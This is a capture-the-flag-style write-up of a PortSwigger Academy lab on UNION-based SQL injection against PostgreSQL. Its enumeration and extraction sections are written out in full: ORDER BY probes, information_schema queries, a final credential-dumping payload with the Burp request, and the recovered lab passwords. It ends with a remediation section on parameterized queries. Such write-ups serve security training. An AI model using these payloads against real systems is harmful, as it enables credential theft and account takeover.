








# Lab 05: SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 22, 2026

---

## 1. Objective
Exploit a `UNION`-based SQL injection vulnerability in the product category filter to enumerate database tables and columns via `information_schema`, retrieve the `administrator` credentials, and log in to the application.

---

## 2. Reconnaissance & Database Enumeration
- **Target Endpoint:** `GET /filter?category=Tech+gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Determine Column Count (`ORDER BY`):**
   - Tested `' order by 2--` $\rightarrow$ returned **HTTP 200 OK**.
   - Tested `' order by 3--` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **2 columns**.
2. **Determine String-Compatible Columns:**
   - Tested `' UNION select 'a', 'a'--` $\rightarrow$ returned **HTTP 200 OK**, confirming both columns accept text data.
3. **Fingerprint Database Version:**
   - Tested `' UNION select version(), NULL--` $\rightarrow$ confirmed **PostgreSQL 12.22**, meaning standard `information_schema` views are available.
4. **Enumerate Database Tables (`information_schema.tables`):**
   - Payload: `' UNION SELECT table_name, NULL from information_schema.tables--`
   - Located the randomized users table: **`users_ypbwpv`**.
5. **Enumerate Columns in `users_ypbwpv` (`information_schema.columns`):**
   - Payload: `' UNION SELECT column_name, NULL from information_schema.columns WHERE table_name = 'users_ypbwpv'--`
   - Located two target columns: **`username_qolwnm`** and **`password_kzgxme`**.

---

## 3. Exploitation & Proof of Concept (PoC)
Using the enumerated table and column names, we extract all stored user credentials via a `UNION SELECT` query.

### Final Payload
```sql
' UNION SELECT username_qolwnm, password_kzgxme from users_ypbwpv--
```
Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Tech+gifts' UNION SELECT username_qolwnm, password_kzgxme from users_ypbwpv-- HTTP/2
Host: 0ac9004f04b0253f806da301000e0023.web-security-academy.net
Cookie: session=[REDACTED]
```
Extracted Credentials
```
Username                Password
wiener               5s7jfnlrjhd2qymgt4s8
administrator        lldwolq4upyv9wlg4mek
carlos               w9zm79dozfzp327clodg
```
Logging in via /login using administrator:lldwolq4upyv9wlg4mek grants full administrative access and solves the lab.

Proof of Exploitation Screenshots
1. Confirming 2 Columns (' order by 2--):
   

2. Confirming Text Data Types (' UNION select 'a', 'a'--):
   

3. Confirming PostgreSQL Database (version()):
   

4. Enumerating Table Name (users_ypbwpv):
   

5. Enumerating Username Column (username_qolwnm):
    

6. Enumerating Password Column (password_kzgxme):
    

7. Extracting User Credentials:
    

8. Lab Completion Banner:
    

## 4. Impact
An unauthenticated attacker can map the entire database schema via information_schema and exfiltrate plaintext or hashed credentials for all users, resulting in complete administrative account takeover (administrator).

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user input in the category parameter cannot alter query structure:
```
// Secure PHP PDO Example for PostgreSQL
$stmt =$pdo->prepare('SELECT * FROM products WHERE category = :category');
$stmt->execute(['category' =>$category]);
$products =$stmt->fetchAll();
```
Least Privilege Database Accounts: Ensure the web application's database user only has SELECT permissions on required application tables and restricted access to metadata views where possible.
